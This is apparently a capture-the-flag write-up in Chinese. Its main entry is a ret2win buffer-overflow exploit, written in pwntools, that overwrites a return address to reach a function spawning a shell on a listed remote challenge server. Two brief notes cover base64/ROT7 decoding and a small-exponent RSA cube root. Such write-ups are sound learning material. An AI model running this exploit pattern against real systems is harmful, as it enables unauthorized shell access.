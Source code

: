 

## Ret2func

用 ghidra 看到 win 函式裡面會 call system("sh") 用 buffer overflow 直接把 return address 蓋成 0x401216 會遇到對齊的問題所以在前面加一個 ret。

![alt text](image-1.png)

```python
from pwn import *


p= remote('172.104.114.9', 30004)

win = 0x401216
retaddr = 0x40101a

buf = b'A'*48 + b'B'*8 + p64(retaddr) + p64(win)


p.sendlineafter(b'if you want',b'y')

p.sendline(buf)

p.interactive()
```

## 博元婦產科

用 base64 decode 然後發現是 Rot7 取得 flag

## baby RSA

發現 e 很小所以直接開三方
